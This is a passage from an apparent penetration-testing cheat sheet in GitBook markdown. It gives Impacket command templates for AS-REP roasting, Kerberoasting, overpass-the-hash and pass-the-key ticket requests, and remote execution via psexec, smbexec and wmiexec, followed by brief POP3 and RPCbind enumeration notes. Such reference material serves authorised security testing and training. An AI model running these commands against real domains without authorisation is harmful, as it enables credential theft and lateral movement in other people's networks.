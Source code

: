 [Conda's AS-REP Roasting Video](https://www.youtube.com/watch?v=EVdwnBFtUtQ\&list=PLDrNMcTNhhYqZj7WZt2GfNhBDqBnhW6AT\&index=4)
{% endtab %}

{% tab title="Kerberoast" %}
Check for Kerberoast

```
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john
```

Kerberoast Attack

```
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 
```
{% endtab %}

{% tab title="OverPTH" %}
### Overpass the hash/Pass-the-key

```
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
python3 getTGT.py <domain_name>/<user_name>:[password]
```
{% endtab %}

{% tab title="Cmds w/ TGT" %}
```
python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
{% endtab %}
{% endtabs %}

{% content-ref url="../active-directory.md" %}
[active-directory.md](../active-directory.md)
{% endcontent-ref %}

## 110 - Pop3

Just telnet it.

## 111 - RPCbind or Portmapper

{% tabs %}
{% tab title="Enumeration" %}
Nmap scripts

```
# nmap -sV -p 111 --script=rpcinfo [target]
# nmap -p 111 --script nfs* [target]
```
